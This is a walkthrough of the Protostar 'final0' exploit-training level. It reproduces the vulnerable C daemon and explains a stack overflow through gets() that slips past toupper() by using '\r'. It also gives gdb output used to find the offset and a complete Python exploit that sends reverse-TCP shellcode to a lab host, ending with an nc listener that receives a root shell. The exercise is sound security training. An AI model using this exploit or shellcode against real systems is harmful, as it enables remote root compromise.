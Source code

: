#### Protostar Final0 

##### About
This level combines a stack overflow and network programming for a remote overflow.

###### Hints:
* depending on where you are returning to, you may wish to use a toupper() proof shellcode.  
  
Core files will be in /tmp.
  
This level is at /opt/protostar/bin/final0  

##### Source code
```c
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

As shown in get_username(), '\n' and '\r' in our payload will be replaced by NULL, and then our payload will be turn into uppercase.  
  
But notice that, after character replacement, strlen(buffer) and strdup(buffer) will treat our payload ends with the NULL which used to replace.  
  
It means that we can use '\r' to bypass toupper().

##### Solution
```
root@protostar:/opt/protostar/bin# gdb final0
......
(gdb) disas get_username
Dump of assembler code for function get_username:
0x0804975a <+0>:    push   %ebp
0x0804975b <+1>:    mov    %esp,%ebp
0x0804975d <+3>:    push   %ebx
0x0804975e <+4>:    sub    $0x224,%esp
0x08049764 <+10>:   movl   $0x200,0x8(%esp)
0x0804976c <+18>:   movl   $0x0,0x4(%esp)
0x08049774 <+26>:   lea    -0x210(%ebp),%eax      ; <-- return address should be in buffer + 0x210 + 4
0x0804977a <+32>:   mov    %eax,(%esp)
0x0804977d <+35>:   call   0x8048eac <memset@plt>
0x08049782 <+40>:   lea    -0x210(%ebp),%eax
......
(gdb) quit
```

At first, I would like to use JMP ESP to construct a stable payload, but msfelfscan can't find JMP ESP in final0. Never mind, let's jump to the stack directly.

```
root@protostar:/tmp# ulimit -c unlimited
root@protostar:/tmp# echo 1 > /proc/sys/fs/suid_dumpable

root@protostar:/tmp# cat test.py
#!/usr/bin/python

from socket import *

s = socket()
s.connect(("127.0.0.1", 2995))
s.send("A"*532 + "B"*4)
s.close()

root@protostar:/tmp# ./test.py
root@protostar:/tmp# ls
core.11.final0.1544   test.py

root@protostar:/tmp# gdb -q -c core.11.final0.1544
Core was generated by '/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
(gdb) x/20x $esp-0x228
0xbffffa38:     0x00000200      0x00000515      0xb7e9c894      0x0d696910
0xbffffa48:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa58:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa68:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffa78:     0x41414141      0x41414141      0x41414141      0x41414141
......
(gdb) quit
```

Now we get the address to return, and then I choose a shell reverse TCP shellcode to complete my payload. 

```python
import socket

#http://www.shell-storm.org/shellcode/files/shellcode-883.php
shellcode = "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89" \
"\xe1\xcd\x80\x92\xb0\x66\x68\xc0\xa8\x38\x66\x66\x68\x05\x39\x43" \
"\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59" \
"\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68" \
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"

s = socket.socket()
s.connect(("192.168.56.101",2995))

payload = "oops\r" + "\x90"*100 + shellcode + "\x90"*(532 - len(shellcode) - 100 - 5) + "\x80\xfa\xff\xbf" + "\n"

s.send(payload)
print s.recv(1024)
s.close()
```

And I listen to port 1337 in my Kali.

```
root@Kali: ~# nc -l -p 1337
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

##### Reference
<https://thesprawl.org/research/exploit-exercises-protostar-final/#final0>  
<https://www.mattandreko.com/2012/01/22/exploit-exercises-final-0/>
